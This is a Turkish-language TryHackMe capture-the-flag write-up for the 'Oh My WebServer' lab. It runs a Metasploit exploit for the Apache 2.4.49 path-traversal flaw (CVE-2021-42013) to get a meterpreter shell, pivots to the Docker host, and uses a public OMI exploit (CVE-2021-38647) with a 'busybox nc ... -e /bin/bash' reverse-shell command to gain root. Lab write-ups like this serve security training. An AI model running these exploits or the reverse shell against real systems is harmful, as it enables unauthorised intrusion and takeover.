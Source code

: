 ```yaml
---
title: 'TryHackMe | Oh My WebServer WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [remote code execution]
render_with_liquid: false
---
```


## Özet

Oh My WebServer, Remote Code Execution zafiyetine sahip orta seviye bir web uygulamasıdır. Apache httpd'nin 2.4.49 sürümünde bulunan bu zafiyeti sömürecek ve sistemden shell alacağız. Sonrada aynı ağ içerisinde başka bir cihazın daha olduğunu öğrenecek ve cihazın üzerinde çalışan zafiyetli bir porttan yararlanarak sistemden tam yetkili olarak bir bağlantı alacağız.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.247.179
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
|_http-title: Consult - Business Consultancy Agency Template | Home
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.49 (Unix)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80 numaralı portun incelenmesi

Tarama sonucunda 80 portu üzerinde Apache httpd'nin 2.4.49 sürümünün çalıştığını gördüm. Bu sürüm üzerinde bir `Remote Code Execution` zafiyeti bulunuyor. Bu zafiyeti sömürmek için metasploitte bir exploit bulunuyor.

## Sömürü aşaması

```console
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_normalize_path_rce) >> run
[*] Started reverse TCP handler on 10.21.66.61:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://10.10.247.179:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://10.10.247.179:80 - Attempt to exploit for CVE-2021-42013
[*] http://10.10.247.179:80 - Sending linux/x64/meterpreter/reverse_tcp command payload
[*] Sending stage (3045380 bytes) to 10.10.247.179
[*] Meterpreter session 1 opened (10.21.66.61:4444 -> 10.10.247.179:49630) at 2025-03-29 17:16:48 -0400
[!] This exploit may require manual cleanup of '/tmp/qKPGzNTp' on the target

(Meterpreter 1)(/bin) >
```

Modülü seçtikten sonra gerekli bilgileri doldurdum, exploiti çalıştırdım ve sistemden bir shell elde ettim.

## Yetki yükseltme

### root

`sysinfo` komutunu kullandıktan sonra sisteme atanan IP adresinin `172.17.0.2` olduğunu öğreniyorum.

```console
(Meterpreter 1)(/home) > sysinfo
Computer     : 172.17.0.2
OS           : Debian 10.10 (Linux 5.4.0-88-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

IP adresleri rastgele atılmadığından `172.17.0.1` adresinde de bir makine olduğunu düşündüm. Bu makinenin portlarını tespit etmek için bir port tarama aracına ihtiyacımız var. [Bu](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) adresten nmap'in derlenmiş halini indirip, karşı sisteme yüklüyorum.

```console
(Meterpreter 1)(/tmp) > upload nmap
[*] Uploading  : /home/appdone/nmap -> nmap
[*] Uploaded -1.00 B of 5.67 MiB (0.0%): /home/appdone/nmap -> nmap
[*] Completed  : /home/appdone/nmap -> nmap
```

Daha sonra tüm portları taramasını istediğimde aşağıdaki portları tespit etti.

```console
./nmap 172.17.0.1 -p-
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Host is up (0.00034s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
```

Nmap sorun çıkardığından portların versiyonlarını görüntüleyemiyorum. Bunun yerine 5986 numaralı portu internette arattım ve [bu](https://github.com/AlteredSecurity/CVE-2021-38647) exploiti buldum. İndirdikten sonra çalıştırıp root haklarında bağlantıyı elde ediyoruz.

```console
python3 exploit.py
usage: exploit.py [-h] -t TARGETIP [-p TARGETPORT] [-c COMMAND] [-s SCRIPT]
exploit.py: error: the following arguments are required: -t/--TargetIP
python3 exploit.py -t 172.17.0.1 -p 5986 -c "busybox nc 10.21.66.61 1234 -e /bin/bash"
```

Bağlantıyı aldıktan sonra ise geriye sadece root.txt ve user.txt dosyalarından bayrakları almak kalıyor.

```console
cd /root
ls
root.txt
snap
cat root.txt
THM{7f14****011f}
find / -name user.txt 2>/dev/null
id
/var/lib/docker/overlay2/7bd13e3daf4d9139aff4d20f9dedfc340318dd7d2fc5cc6569f3db831a67ccee/merged/root/user.txt
/var/lib/docker/overlay2/b7c08e7595ad459eca41aeafc79338b5c809c1aec3296cff0263882f60a87b7e/diff/root/user.txt
uid=0(root) gid=0(root) groups=0(root)
cat /var/lib/docker/overlay2/b7c08e7595ad459eca41aeafc79338b5c809c1aec3296cff0263882f60a87b7e/diff/root/user.txt
THM{eacf***7ac1}
```
